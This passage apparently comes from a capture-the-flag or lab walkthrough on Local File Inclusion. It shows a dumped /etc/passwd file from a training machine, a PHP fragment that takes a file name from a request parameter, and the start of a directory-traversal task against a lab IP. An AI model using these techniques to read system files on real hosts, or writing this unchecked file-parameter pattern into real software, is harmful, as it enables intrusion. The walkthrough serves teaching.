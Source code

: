 ```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false syslog:x:104:108::/home/syslog:/bin/false _apt:x:105:65534::/nonexistent:/bin/false messagebus:x:106:110::/var/run/dbus:/bin/false uuidd:x:107:111::/run/uuidd:/bin/false lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false whoopsie:x:109:117::/nonexistent:/bin/false avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false saned:x:119:127::/var/lib/saned:/bin/false usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false lfi:x:1000:1000:THM,,,:/home/lfi:/bin/bash 
```

### 6. 

We can than browse throguh to find user's that aren't there by default. A hint towards no default users are uses that have `/home/` directories.

### 7. 

An example of LFI vulnerable PHP is:

```php
<?php 
    $file = $_REQUEST["page"];
?>
```

## [Task 2] Local File Inclusion using Directory Traversal 

### 1.

Move to the second walkthrough page.
```
http://10.10.129.193/lfi2/lfi.php
```

### 2.

We can see that adding `home.html` file through the `?page=` parameter does not return the same file as previously.
